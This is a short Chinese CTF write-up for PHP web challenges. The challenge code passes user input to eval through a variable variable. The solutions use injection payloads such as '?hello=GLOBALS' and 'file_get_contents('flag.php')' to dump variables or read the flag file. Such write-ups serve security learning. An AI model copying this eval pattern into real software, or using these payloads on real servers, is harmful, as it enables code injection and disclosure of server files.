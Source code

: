 # 爆破-1
```php
include "flag.php";  
$a = @$_REQUEST['hello'];  
if(!preg_match('/^\w*$/',$a )){  
die('ERROR');  
}  
eval("var_dump($$a);");  #提交时转换成 $GLOBALS 回显所有变量
show_source(__FILE__);  
?>
```
直接构造 payload:`?hello=GLOBALS` 提交,在所有变量中找到 flag: `flag{f210df84-58c5-4b34-a5ec-14caf0d7ec0e}`
# 爆破-2
同样的题,解法不同
构造 payload:`?hello=file_get_contents('flag.php')` 提交,`Ctrl+U` 查看源码得到 flag:`flag{45026846-5a96-4f26-bc7a-1b80077b81d7}` 
以下均可
`file_get_contents('flag.php')`
`file('flag.php')`
`show_source('flag.php')`
# 爆破-3
<!--stackedit_data:
eyJoaXN0b3J5IjpbMTk4MjEwMjkyNiwtMTc4Njk2NDMyOCw0NT
kzOTYxNTVdfQ==
-->